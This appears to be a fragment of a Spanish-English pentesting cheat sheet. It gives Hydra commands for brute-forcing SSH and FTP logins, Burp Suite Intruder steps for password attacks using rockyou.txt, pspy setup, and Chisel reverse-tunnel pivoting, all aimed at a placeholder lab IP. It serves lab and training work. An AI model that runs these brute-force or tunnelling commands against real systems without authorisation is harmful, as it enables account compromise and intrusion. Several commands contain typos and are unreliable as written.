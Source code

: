 ```
hydra -l <user> -P <dictionary> 10.10.10.10 ssh t4 | brutefoce ssh service
```

```
hydra -l <user> -P <dictionary> 10.10.10.10 ftp t4 | brutefoce sftp service
```

**BurpSuite**
```
- Proxy/Options   -> Allow (Dont send items to proxy history or live tasks, if but of scope)
- Target/Scope    -> Add (Site-Work)
- Proxy/Intercept -> On intercept
- Realizar Petición A Capturar
- Ctrl + i (Send Intruder)
- Clear S + Add S (S = Select)
- head -n 10000 /usr/share/wordlists/rockyou.txt > passwords (Create Diccionary)
- Payload Options Simple List/Load (Load dictionary)
- Disallow Option Payload Encoding
- Options/Refetch Response (Select expresion regular) 
- Start Sttack
```


### Certificados SSL
**Inspeccionar Certificado**
```
openssl s_client -connect 10.10.10.10:443
```


### Herramientas Pentest
**Pspy**
```
git clone https://github.com/DominicBreuker/pspy.git
```
```
go build main.go
```
```
chmod +x pspy
```
```
./pspy
```

**Chisel**
```
chmod +x
```
```
./chisel server --reverse-port 2000
```
```
./chisel client 10.10.10.10:2000 R:1000:127.0.0.1:80
```

